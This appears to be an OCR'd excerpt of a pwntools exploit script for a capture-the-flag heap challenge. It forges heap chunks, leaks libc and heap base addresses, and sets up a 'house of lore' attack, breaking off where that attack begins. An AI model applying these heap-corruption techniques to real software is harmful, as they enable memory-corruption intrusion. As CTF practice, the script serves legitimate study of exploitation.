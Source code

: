 ```
    buy_house(6, 0x90, "\x66" * 0x90)
    buy_house(7, 0x90, "\x77" * 0x90)


    #a big chunk
    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0xa1) + "\xcc" * 0x90 +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + "\x44" * 0x90 +
              p64(0) + p64(0xa1) + "\x55" * 0x90 +
              p64(0) + p64(0xa1) + "\x66" * 0x90 +
              p64(0) + p64(0xa1) + "\x77" * 0x90 )
    #pause()
    sell(4)
    sell(6)

    #leak
    show_house(1, reading = False)
    for i in range(0, 10):
        ru(p64(0xa1))
    leaked_libc = u64(p.read(8))
    leaked_heap = u64(p.read(8))

    libc_base = leaked_libc - 0x1e4ca0
    heap_base = leaked_heap - 0x1d60
    log.critical("libc_base --> {}".format(hex(libc_base)))
    log.critical("heap_base --> {}".format(hex(heap_base)))


    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0x21) + "\xcc" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
              p64(0) + p64(0x21) + "\x55" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
              p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
              p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

    #prepare for house of lore
    sell(2)
    sell(7)
    sell(1)

    buy_house(1, 0xb0, "\x11" * 0xb0)
    buy_house(2, 0x90, "\x22" * 0x90)
    buy_house(6, 0x217, "\x66" * 0x90)
    buy_house(4, 0x217, "\x44" * 0x90)
    sell(6)
    #set bitmap to 0x100
    buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
    sell(6)
    pause()
    #house of lore
```